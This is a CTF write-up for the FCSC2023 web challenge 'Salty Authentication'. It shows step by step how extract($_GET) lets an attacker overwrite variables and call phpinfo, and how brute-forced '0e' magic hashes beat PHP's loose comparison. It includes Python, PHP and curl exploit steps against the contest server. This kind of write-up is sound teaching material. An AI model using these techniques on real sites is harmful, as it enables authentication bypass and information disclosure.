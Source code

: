```yaml
---
title: CTFs | FCSC2023 | Web | Salty Authentication
author: Stillwolfing
date: 2023-05-05
categories: [CTFs, FCSC2023, Web]
tags: [CTFs, FCSC2023, Web, Magic Hash, Type Juggling]
permalink: /CTFs/FCSC2023/web/salty_authentication
---
```


## Context

![context](/assets/img/CTFs/FCSC2023/web/salty_authentication/context.png)

I did not solved this challenge during the CTF, but I solved it after.

Here is the main page:

![main_page](/assets/img/CTFs/FCSC2023/web/salty_authentication/main_page.png)


We are presented the php code of the page:

```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The flag is included from flag.php.

### The flag

```php
if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    }
```

To reveal the flag, we need to have the hash of the secret equal to the hash of the password.

We can define some variables in the url thanks to the extract($_GET). So, we can define the $password variable.

First we have to pass this test:

```php
if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret)
```

We can see that $password has to be set. It has to be the same length as $secret. And it has to be different from $secret.

As $password has to be different from $secret, we cannot use the same string for both. So, we have to find a hash collision (different values, same hash).


$secret is the concatenation of the hostname and the salt which is a random string of 12 bytes.

## Hostname length

The first thing that came to my mind is to use ```extract($_GET)``` to rewrite the $salt variable. Unfortunately, we cannot rewrite the $secret variable as it is defined after the extract.

With this, we can pass the first test by finding the length of the hostname.

To do this, we rewrite the $salt variable as an empty string. Then, we add a character to the $password variable until we get the "Wrong password!" message.

```python

import requests
import time

password = ""
salt=""
counter = 0

while 1:
    counter += 1
    password += "1"
    print(counter)

    url = f"https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password={password}"

    r = requests.get(url)

    if "Wrong password!" in r.text:
        print(f"Hostname length: {counter}")
        break
    
    time.sleep(5)
```

Output:
![hostname_length](/assets/img/CTFs/FCSC2023/web/salty_authentication/hostname_length.png)

The hostname length is 12.

## Hostname

Now we need to find the hostname. What we can notice is this:

```php
else {
        echo('Wrong password!');
        exit($log_attack());
}
```

If the hashes are different, we get the "Wrong password!" message. And the $log_attack() function is called.

As log_attack is a variable, we can rewrite it with extract($_GET). So, we can define the $log_attack() function called when the hashes are different.

Let's call phpinfo to get the hostname:

url: https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=123456789012&log_attack=phpinfo

Output:
![phpinfo](/assets/img/CTFs/FCSC2023/web/salty_authentication/phpinfo.png)

We've got the hostname: 9be4a60f645f

## Type juggling

The == operator is used to compare the hashes. It's a weak comparison. It's a type juggling comparison.

With this operator, if a comparaison is made between a string and an integer, the string is converted to an integer.

So, if the string begins with "0e", it will be converted to 0. It's a magic hash!

[type juggling article](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

[magic hashes article](https://github.com/spaze/hashes)

## Magic hash

Let's try to find a magic hash for the secret. The secret has to begin with the hostname then we can use the salt to change the value.

Code to find a magic hash:

```php
<?php

$counter =0;
while(1){
    $salt = bin2hex(random_bytes(6));
    $secret = "9be4a60f645f" . $salt;
    $counter+=1;
    $hash = hash('fnv164',$secret);

    if ($hash==0) {
        echo ("secret: ".$secret."\n");
        echo ("salt: ".$salt."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![salt](/assets/img/CTFs/FCSC2023/web/salty_authentication/salt.png)

Now let's find a magic hash for the password with the same length:

```php
<?php

$counter =0;
while(1){
    $password = bin2hex(random_bytes(12));
    $counter+=1;
    $hash = hash('fnv164',$password);

    if ($hash==0) {
        echo ("password: ".$password."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![password](/assets/img/CTFs/FCSC2023/web/salty_authentication/password.png)

Ok so if put salt="70f9186fa35c" and password="8215d358c2d73169d5895016", the secret and the password will have the same length while having different values so we can pass the first test.

As both hashes begins with "0e", they will be converted to 0. So, the hashes will be equal and we will get the flag.

```bash
curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=70f9186fa35c&password=8215d358c2d73169d5895016"
```

We get the flag!
![flag](/assets/img/CTFs/FCSC2023/web/salty_authentication/flag.png)

